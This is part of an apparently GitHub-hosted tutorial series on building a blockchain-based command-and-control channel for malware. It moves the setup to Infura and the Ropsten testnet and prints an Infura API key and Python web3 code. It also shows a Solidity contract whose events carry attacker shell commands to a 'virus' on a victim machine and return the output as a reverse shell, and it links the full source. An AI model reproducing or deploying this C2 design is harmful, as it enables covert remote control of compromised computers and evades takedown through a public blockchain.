

# PART 5 - Series of Creating Blockchain based C2

**Links Which would be necessary for this Section of series**

* [Infura](https://infura.io/)

## Replacing Ganache-cli with Infura API

We will be replacing the `ganache-cli` with infura as it is a api service which let's us interact with the blockchain without making our own node.

The link for infura is pasted above sign up and get a key which would look like this

```
ropsten.infura.io/v3/55eb8175a7474f397ce9f23346f0ac32
```

Now as we will be using the websockets we have to add one more thing to this api which is `/ws/` 

so final api would look like 

```
ropsten.infura.io/ws/v3/55eb8175a7474f397ce9f23346f0ac32
```

As well as one more change that if you remember we have to use  `ws` with ganache but in this we will be using `wss`.

So the contract object would now look like this

```python
infura_key="wss://ropsten.infura.io/v3/55eb8175a7474f397ce9f23346f0ac32"
web3 = Web3(Web3.HTTPProvider(infura_key))
```

## Replacing Ganache cli Blockchain with Ropsten 

Ropsten is basically a public test server for ethereum platform where developers build their Dapps and test them also users can generate a ETH wallet and can get 1 ETH at this [site]([https://faucet.ropsten.be](https://faucet.ropsten.be/))

The api to get a new wallet is :-

```python
wallet_address_obj = web3.eth.account.create()
```

This will create an object of wallet which has everything like wallet_key and private key,etc.

## Solidity C2 handler

We have created a solidity handler let us understand it...

```
pragma solidity >=0.4.0 <0.6.0;

contract c2 {
    
    
    address owner;
    event forvictim(string  command);
    
    event forattacker(string command);
    
    constructor() public c2(){
        
        owner=msg.sender;
        
    }
    
    function tovictim(string memory _command) public {
        if (owner==msg.sender){
          emit forvictim(_command);  
        }
        
    }
    
    function toattacker(string memory _response) public{
        
        if (owner==msg.sender){
            
            emit forattacker(_response);
        }
    }
    
    
    
}
```

Things to note here:-

* **msg.sender** :- This command will give the address of the wallet who is currently in transact with the contract
* **forvictim event** :- This event will be used by attacker to supply any command which he/she want to execute and it will send a `_command` type of variable 
* **forattacker event** :- This event will be used by victim to supply the output of the command which was sent by the attacker and it will send the output in `_response` variable

We have used `_command` and `_response` in order to let our virus or handler know which type of event it shall receive and work on for ex:- 

Both of the programs(virus and handler) will have same listener so we have to distinguish the them both so that handler only shows whatever there is in `_response` variable and virus should only process whatever in the `_command` variable 



As we can see:-

 1) when the virus started it will send `started` in `_response` so that our handler will know we are connected to the computer and it will give us our reverse shell

 2) When we executed the command `id` it went in `_command` keyword after which the output was sent in `_response` variable so that our handler will catch it.


*Note :- We also have implemented a security type feature which will make sure that only the wallet address who created this contract could interact with the functions*

By using the `owner` variable when constructor was called it will store the wallet address and later use it whenever someone calls the functions

**Now by using the functions handling in web3 we can directly trigger those events so now it's time to test on real ethereum**

## Demo Time

 [](http://www.youtube.com/watch?v=Sd03BdxZFvU "Blockchain C2")

Typically it would take upto 1-2 min for a transaction to be mined that is why i have shown this video with 4x speed.

The Full source code can be found here :- [https://github.com/geek-repo/C2-Blockchain](https://github.com/geek-repo/C2-Blockchain)

*Note:- Do not use this on real server unless you set up any kind of encryption before sending data on blockchain because anyone with wallet address can get all the data fetched and commands executed*

That was it Guys i hope you all would like this interesting poc as well as 

Huge thanks to [https://www.mdsec.co.uk/2019/01/activebreach-powered-by-the-blockchain/](https://www.mdsec.co.uk/2019/01/activebreach-powered-by-the-blockchain/)

This article motivated me to do this on python.

Stay tuned for more interesting articles guys :)

